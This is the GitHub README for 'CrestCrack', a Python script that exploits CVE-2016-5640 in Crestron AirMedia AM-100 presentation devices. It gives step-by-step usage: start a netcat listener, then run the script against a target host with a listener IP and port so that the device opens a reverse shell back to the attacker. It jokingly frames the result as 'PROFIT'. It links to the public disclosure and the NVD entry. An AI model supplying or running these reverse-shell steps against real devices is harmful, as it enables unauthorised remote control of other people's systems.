 ![Supported Python versions](https://img.shields.io/badge/python-2.7-blue.svg)
# CrestCrack
CrestCrack is a simple script that exploits CVE-2016-5640 / CLVA-2016-05-002 within the Crestron AirMedia AM-100 (v1.1.1.11 - v1.2.1). When supplied with arguments CrestCrack will utilize netcat to create a reverse shell between your target and a netcat listener of your choice. 

## Setup:
1. Clone a copy of CrestCrack `git clone https://github.com/vpnguy/CrestCrack`
2. Launch a netcat listener `nc -lvp 1337`
3. Execute CrestCrack against your target with your listener info `./crestcrack.py https://targethost 255.255.255.255 1337`
4. ??????
5. **PROFIT**

###Usage:
**./crescrack.py *[target host] [listener IP] [listener port]***

###Example: 
**./crescrack.py https://targethost 123.123.123.123 3311**

 

## Additional Vulnerability Information:
[Cylance Vulnerability Disclosure]("https://github.com/CylanceVulnResearch/disclosures/blob/master/CLVA-2016-05-002.md")

[NIST CVE-2016-5640]("https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2016-5640")

## To be added:
- Error handling/bounds checking
- Enhanced argument support
- --help output

